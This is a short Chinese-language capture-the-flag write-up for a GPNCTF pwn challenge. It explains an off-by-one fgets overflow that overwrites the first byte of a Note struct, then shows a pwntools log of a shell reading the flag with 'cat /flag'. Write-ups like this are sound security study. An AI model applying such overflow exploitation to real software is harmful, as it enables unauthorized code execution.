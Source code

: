 # 思路
一字节溢出：

- 在edit函数中，当用户指定偏移量offset和长度length时，程序会调用fgets(note->buffer + offset, length + 2, stdin)。

- 如果offset = 0且length = 1024，则fgets可读取最多1025字节（因为length + 2 = 1026）。

- 但缓冲区note->buffer（栈上的buffer数组）大小仅为1024字节，写入1025字节会导致溢出1个字节，覆盖Note结构体的第一个字节。

# getshell
```
DEBUG] Sent 0xa bytes:
    b'cat /flag\n'
[DEBUG] Received 0x4 bytes:
    b'Bye\n'
[*] Switching to interactive mode
[DEBUG] Received 0x32 bytes:
    b'GPNCTF{NOw_y0U_5UReLY_aRe_ReadY_T0_pWN_l4dY81RD!}\n'
GPNCTF{NOw_y0U_5UReLY_aRe_ReadY_T0_pWN_l4dY81RD!}
[*] Got EOF while reading in interactive
$

```
![](https://r2.20161023.xyz/pic/20250621190955058.png)